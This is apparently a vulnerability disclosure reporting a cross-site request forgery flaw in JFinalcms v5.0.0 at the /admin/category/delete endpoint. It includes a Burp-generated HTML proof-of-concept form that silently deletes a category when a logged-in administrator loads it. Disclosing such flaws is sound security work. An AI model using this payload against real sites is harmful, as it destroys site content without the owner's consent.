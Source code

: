 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/category/delete

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/5d9003e1-7641-4114-913f-335fa1b1af66)

create poc

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/d4f64d4b-2634-4b7e-adfb-61217ab88e71)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/category/delete" method="POST">
      <input type="hidden" name="id" value="1125" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/24392813-5601-4dcf-9299-ccd2e01a0f1c)
